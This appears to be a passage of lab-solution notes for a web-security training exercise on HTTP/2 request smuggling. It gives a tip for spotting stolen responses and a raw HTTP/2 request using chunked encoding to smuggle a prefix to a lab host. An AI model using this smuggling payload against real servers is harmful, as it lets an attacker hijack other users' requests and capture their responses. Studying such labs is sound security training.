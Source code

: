 ![http-Desync-attack.png](HTTP%202%20Request%20Smuggling%200ffd2fc3215649578b57f29566807fde/http-Desync-attack.png)

`To make it easier to differentiate stolen responses from responses to your own requests, try using a non-existent path in both of the requests that you send. That way, your own requests should consistently receive a 404 response, for example.`

**EG.Soln**

- Using Burp Repeater, try smuggling an arbitrary prefix in the body of an HTTP/2 request using chunked encoding as follows. Remember to expand the Inspector's **Request Attributes** section and change the protocol to HTTP/2 before sending the request.

```
POST / HTTP/2
Host: YOUR-LAB-ID.web-security-academy.net
Transfer-Encoding: chunked

0

SMUGGLED

```
